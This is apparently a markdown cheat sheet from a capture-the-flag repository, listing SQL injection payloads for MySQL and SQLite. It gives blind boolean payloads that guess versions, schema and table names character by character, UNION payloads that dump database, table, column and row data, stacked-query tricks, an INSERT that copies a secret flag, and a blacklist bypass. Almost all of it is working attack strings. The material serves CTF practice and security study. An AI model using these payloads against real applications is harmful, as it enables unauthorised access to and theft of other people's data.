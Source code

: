 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind sqli
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Get version [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_version.py)
      - `admin' and (SELECT LENGTH(VERSION())={guess})#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))={guess})#`

  - Get schemas [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_get_schemas.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.SCHEMATA)#`
      - `admin' and (SELECT LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {schema_index}),{name_index},1))={ord(guess)})#`
  
  - Get tables from schema  [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_tables.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {table_index}),{name_index},1))={ord(guess)})#`



###
- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`


## Tricks

  - Bypass blacklist words
    - `ad'||'min`

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```
